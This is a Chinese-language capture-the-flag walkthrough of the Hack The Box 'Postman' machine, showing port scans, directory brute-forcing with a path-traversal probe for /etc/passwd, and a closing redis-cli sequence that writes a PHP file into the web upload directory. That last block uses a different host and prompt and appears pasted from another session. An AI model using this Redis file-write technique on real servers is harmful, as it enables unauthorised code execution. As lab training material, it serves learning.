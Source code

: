 # 免责声明
>本文渗透的主机经过合法授权。本文使用的工具和方法仅限学习交流使用，请不要将文中使用的工具和渗透思路用于任何非法用途，对此产生的一切后果，本人不承担任何责任，也不对造成的任何误用或损害负责。

# 服务探测
查看开通端口
```
┌──(root💀kali)-[~/htb/Postman]
└─# nmap -p- 10.10.10.160 --open
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-23 22:54 EST
Nmap scan report for 10.10.10.160
Host is up (0.31s latency).
Not shown: 64665 closed ports, 866 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
6379/tcp  open  redis
10000/tcp open  snet-sensor-mgmt

Nmap done: 1 IP address (1 host up) scanned in 107.39 seconds

```

查看端口详细信息
```
┌──(root💀kali)-[~/htb/Postman]
└─# nmap -sV -T4 -A -O 10.10.10.160 -p 22,80,6379,10000
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-23 22:57 EST
Nmap scan report for 10.10.10.160
Host is up (0.26s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.16 (93%), Linux 3.18 (93%), ASUS RT-N56U WAP (Linux 3.4) (93%), Android 4.2.2 (Linux 3.4) (93%), Linux 2.6.32 (92%), Linux 3.1 - 3.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   251.42 ms 10.10.14.1
2   253.03 ms 10.10.10.160

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.24 seconds

```

先把靶机域名写进host文件
> echo "10.10.10.160 Postman" >> /etc/hosts

可以看到开了ssh服务，一个80端口的http服务，6379是redis服务，10000端口是webmin服务

redis这个版本好像存在一个rce，试了几个exp都报错
> -ERR unknown command 'system.exec'

搜索了一圈，在[这个](https://serverfault.com/questions/1021564/redis-server-exploit-for-command-execution)帖子下看到一个答案
> The redis instance doesn't have MODULE command which is odd. If this is a CTF it might be intentional that the box creator removed it.

所以可能是被人为移除了这个漏洞？


## 80服务目录爆破
```
┌──(root💀kali)-[~/dirsearch]
└─# python3 dirsearch.py -e* -t 100 -u http://10.10.10.160                                     

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, jsp, asp, aspx, do, action, cgi, pl, html, htm, js, json, tar.gz, bak | HTTP method: GET | Threads: 100
Wordlist size: 15492

Output File: /root/dirsearch/reports/10.10.10.160/_21-12-23_22-57-15.txt

Error Log: /root/dirsearch/logs/errors-21-12-23_22-57-15.log

Target: http://10.10.10.160/

[22:57:16] Starting:            
[22:57:28] 301 -  309B  - /js  ->  http://10.10.10.160/js/                                                         
[22:58:09] 400 -  304B  - /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd     
[22:58:13] 301 -  310B  - /css  ->  http://10.10.10.160/css/                
[22:58:21] 301 -  312B  - /fonts  ->  http://10.10.10.160/fonts/            
[22:58:26] 301 -  313B  - /images  ->  http://10.10.10.160/images/          
[22:58:26] 200 -    2KB - /images/                                          
[22:58:27] 200 -    4KB - /index.html                                       
[22:58:28] 200 -    3KB - /js/                                                                                
[22:59:12] 301 -  313B  - /upload  ->  http://10.10.10.160/upload/          
[22:59:15] 200 -    8KB - /upload/   
```




root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /var/www/html/upload/
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK


